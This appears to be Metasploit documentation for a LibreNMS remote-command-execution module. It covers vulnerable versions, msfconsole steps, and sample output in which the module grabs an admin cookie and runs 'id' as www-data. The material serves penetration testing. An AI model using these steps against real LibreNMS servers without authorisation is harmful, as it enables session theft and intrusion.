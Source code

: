 [LibreNMS](http://www.librenms.org) is Community-based GPL-licensed network monitoring system 

## Vulnerable Application

You can get the application on its [github](https://github.com/librenms/librenms),
just make sure to get a version older than
[1205f12f10a87f50a9a9127ab3caea861bff91b9](https://github.com/librenms/librenms/commit/1205f12f10a87f50a9a9127ab3caea861bff91b9)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/librenms_rce`
  4. Do: `set rport port`
  5. Do: `set rhost ip`
  5. Do: `set cmd id`
  6. Do: `exploit`
```
 msf exploit(librenms_rce) > run
[*] Getting admin cookie...
[*] Got admin cookie: PHPSESSID=nmvg7q21egmrbg2enf27tjplt4;
[*] Result of the command:
uid=33(www-data) gid=33(www-data) groups=33(www-data),996(librenms)
[*] Exploit completed, but no session was created.
msf exploit(librenms_rce) > 
```
  9. You should get the admin cookie, and the result of your command.

## Options

  **TARGETURI**

  TARGETURI by default is `/`, which is the common path for LibreNMS.
  
## Demonstration

```
msf > use multi/http/librenms_rce
msf exploit(librenms_rce) > set cmd id
cmd => id
msf exploit(librenms_rce) > set RHOST 192.168.0.18
RHOST => 192.168.0.18
msf exploit(librenms_rce) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf exploit(librenms_rce) > run

[*] Getting admin cookie...
[*] Got admin cookie: PHPSESSID=nmvg7q21egmrbg2enf27tjplt4;
[*] Result of the command:
uid=33(www-data) gid=33(www-data) groups=33(www-data),996(librenms)
[*] Exploit completed, but no session was created.
msf exploit(librenms_rce) > 
```
